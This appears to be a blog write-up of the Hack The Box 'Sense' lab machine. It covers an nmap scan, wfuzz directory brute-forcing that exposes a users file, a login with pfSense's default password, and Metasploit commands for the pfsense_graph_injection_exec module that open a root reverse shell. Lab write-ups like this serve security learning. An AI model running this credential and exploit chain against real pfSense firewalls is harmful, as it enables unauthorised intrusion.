 ```yaml
---
layout: post
title:  "HTB Sense Machine Writeup"
date:   2020-1-2 00:10:00 +0000
categories: hackthebox
---
```

Sense was another box that you can smash out in 10 minutes you might have spare. Not much to be learnt from this one as it was very straight forward.

# Nmap scan
```
PORT STATE SERVICE VERSION
80/tcp open http lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open ssl/https?
|_ssl-date: TLS randomness does not represent time
```
Navigating to the webserver we get shown a pfsense login page and not much else.

# Wfuzz results
```
wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt --hc 404,301 https://10.10.10.60/FUZZ.txt
001197: C=200 9 L 40 W 271 Ch "changelog"
112347: C=200 6 L 12 W 106 Ch "system-users"
```
Changelog indicates the current version is vulnerable to something. system-users indicates the username 'rohit' and 'company-default' exist. Trying the username rohit and pfsense default password of 'pfsense' lets us in.

# Exploitation
Searching for an exploit with this platform returns a metasploit module that fits our needs, filling in the details we know we can run the exploit.
```
msf exploit(unix/http/pfsense_graph_injection_exec) > set RHOST 10.10.10.60
RHOST => 10.10.10.60
msf exploit(unix/http/pfsense_graph_injection_exec) > set USERNAME rohit
USERNAME => rohit
msf exploit(unix/http/pfsense_graph_injection_exec) > set LHOST tun0
LHOST => 10.10.14.6
msf exploit(unix/http/pfsense_graph_injection_exec) > exploit
```
<br>
The above exploit yields a root level shell so theres no need to extend privileges.


